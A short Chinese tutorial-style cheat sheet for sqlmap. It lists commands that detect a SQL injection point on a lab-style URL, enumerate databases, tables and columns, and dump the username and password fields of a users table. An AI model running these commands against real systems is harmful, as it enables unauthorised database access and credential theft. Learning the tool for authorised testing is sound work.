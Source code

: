检测注入点：
-u：url缩写，指定url
sqlmap.py sqlmap -u 要检查网址url

获取数据库服务器上所有的数据库名称
--dbs 表示获取所有数据库名
sqlmap.py sqlmap -u 要检查的url --dbs

获取正在使用的数据库名
--current-db：表示查看当前数据库
sqlmap.py sqlmap -u http://192.168.83.108/news/show.php?id=55 --current-db

获取数据表名
-D:Database 指定数据库
--tables：获取所有数据表
sqlmap.py sqlmap -u http://192.168.83.108/news/show.php?id=55 -D news --tables

获取数据库表字段名
-D：指定数据库
-T:Table 指定表名
--columns 查询字段名
sqlmap.py sqlmap -u http://192.168.83.108/news/show.php?id=55 -D news -T news_users --columns

获取表中字段数据
-C 表示字段名
--dump 全部查询
sqlmap.py sqlmap -u http://192.168.83.108/news/show.php?id=55 -D news -T news_users -C username,password --dump
